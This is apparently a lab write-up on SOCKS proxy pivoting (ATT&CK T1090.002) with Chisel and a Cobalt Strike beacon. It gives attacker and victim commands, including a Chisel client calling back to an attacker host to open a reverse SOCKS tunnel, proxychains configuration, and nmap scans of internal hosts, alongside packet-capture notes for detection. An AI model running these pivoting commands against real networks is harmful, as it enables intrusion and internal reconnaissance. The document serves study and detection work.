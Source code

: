 # T1090.002 SOCKS Proxy Pivoting

## Description

Adversaries might using proxy tools to establish a SOCKS proxy connection between the client (victim) and server (attacker) machine to redirect attacker network into target's internal network.

This can be used to masquerade their actual c2 server from defender perspective.

Various tools can perform this activity such as Chisel, Cobalt Strike beacon etc.

## Experiment

### Chisel

Victim's Internal machine IP address: 172.16.168.11\
Victim's machine IP address: 192.168.168.121\
Attacker's machine IP address: 192.168.45.229

#### In Attacker Server

```
Setup Proxy Server in Attacker
> chisel server --port 8082 --reverse
```

Once command above executed, it can see that the machine start listening to port `8082`. 

![chisel_server_listening_port](./Image_T1090.002/chisel_server_listening_port.png)

#### In Victim Server

```
Setup Proxy Client in Victim
> chisel.exe client <ATTACKER_MACHINE_IP>:8082 R:socks
```

![chisel_client_1](./Image_T1090.002/chisel_client_1.png)

#### Network Packet from Victim Machine

```
From attacker machine
> proxychains nmap 172.16.168.11
```

![chisel_pcap_1](./Image_T1090.002/chisel_pcap_1.jpg)

It can bee seen that before the internal connection start, the victim machine will send some network packet to the port `8082` which is the SOCKS proxy establishment from attacker machine. Probably that might be a clue to identify the proxy connection.

### Cobalt Strike Beacon

Victim's Internal machine IP address: Internal 172.16.228.11\
Victim's machine IP address: 192.168.228.121\
Attacker's machine IP address: 192.168.45.193

#### In Attacker Server

```
Attacker Teamserver
beacon > socks 10597
```

Once created a SOCKS proxy, the teamserver will starts listen to the port set from command above.

![cs_server_socks_1](Image_T1090.002/cs_server_socks_1.png)

```
From attacker machine
> sudo nano /etc/proxychains.conf

Inside /etc/proxychains
...
[Proxy List]
...
# Add the line below
socks4 192.168.45.193 10597
...

> proxychains nmap 172.16.228.11
```

#### In Victim Server

Based on the pcap file caputre using `Pktmon`, there is no actual SOCKS proxy port found. However, before any initiation of between the internal machine, there is a connection made to the c2 via the c2 listening port (443). Most probably those packet might contains the SOCKS proxy port from c2.

![cs_client_socks_1](./Image_T1090.002/cs_client_socks_1.png)

## Side Notes

### Pktmon Command Used in Client Machine

```
Start moninitoring network 
> pktmon start --capture 

Stop monitoring network
> pktmon stop

Convert .etl to .pcap
> pktmon etl2pcap <PATH_TO_ETL> -o <PATH_TO_PCAP>
```
